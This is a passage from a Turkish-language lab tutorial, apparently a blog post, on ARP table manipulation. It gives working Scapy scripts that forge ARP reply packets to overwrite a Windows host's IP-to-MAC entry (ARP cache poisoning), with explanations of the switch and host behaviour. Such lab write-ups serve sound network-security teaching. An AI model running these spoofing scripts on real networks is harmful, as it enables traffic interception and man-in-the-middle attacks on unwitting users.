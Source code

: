 **Switch ve Windows cihazları**, başlıklardaki farklı değerleri farklı şekilde yorumlar.  
  - **Switch:** Ethernet başlığındaki `00:11:22:33:66:34` MAC adresini kaydeder.  
  - **Windows:** ARP başlığındaki `00:11:22:33:66:67` MAC adresini kaydeder.  

![wireshark](/img/0x02/3.png)
Bunun sebebi windows makine cevap verirken 10.0.40.68 ip'sine ait 00:11:22:33:66:67 mac adresine cevap veriyor ancak switchin arp tablosunda bu ip'ye tanımlı mac adresi 00:11:22:33:66:34 olarak belirlenmiş durumda bu sebepten 00:11:22:33:66:67 mac adresini bulamayarak ağdaki bütün cihazlara broadcast yapıyor. Switch'in kafasını karıştırmış olduk. 

## **0x03 : Opcode Değişikliği**

```python
from scapy.all import * 

ether_header = Ether(src="00:11:22:33:44:83", dst="ff:ff:ff:ff:ff:ff")
arp_header = ARP(hwsrc="00:11:22:33:44:83", psrc="10.0.40.83", hwdst="00:00:00:00:00:00", pdst="10.0.40.3", op=2)
packet = ether_header / arp_header
ls(packet)
sendp(packet) 
``` 
**`op=2`:** Bir ARP Reply paketidir. Hedef cihaza, daha önce sorulmamış olsa bile doğrudan yanıt verir.  

![wireshark](/img/0x02/4.png)
![wireshark](/img/0x02/5.png)
![arp-a](/img/0x02/6.png)

Direkt olarak cevap verildiği görülür. Ancak hedef sistemde, 10.0.40.83 IP adresine ait bir kayıt oluşturulmaz.  

**Peki ne işe yarıyor?**

Daha önce var olan bir IP adresine ait fiziksel adresi değiştirebiliriz:  

```python
from scapy.all import * 

ether_header = Ether(src="00:11:22:33:44:83", dst="ff:ff:ff:ff:ff:ff")
arp_header = ARP(hwsrc="00:11:22:33:44:83", psrc="10.0.40.67", hwdst="00:00:00:00:00:00", pdst="10.0.40.3", op=2)
packet = ether_header / arp_header
ls(packet)
sendp(packet) 
``` 
Betiği yeniden çalıştırıp gönderelim ve Windows sistemimize dönüp arp tablosuna bakalım. 

![arp-a](/img/0x02/7.png)

Windows cihazında `10.0.40.67` IP adresine ait MAC adresinin değiştirildiği gözlemlenir.  

## **Özetle** 
**`op=1` (Request):** Yeni bir kayıt oluşturabiliriz.  
**`op=2` (Reply):** Mevcut bir kaydı değiştirebiliriz.  
Bu yöntemlerle ağ üzerindeki cihazların ARP tablolarını manipüle ederek, karar mekanizmalarına müdahale edebiliriz.  
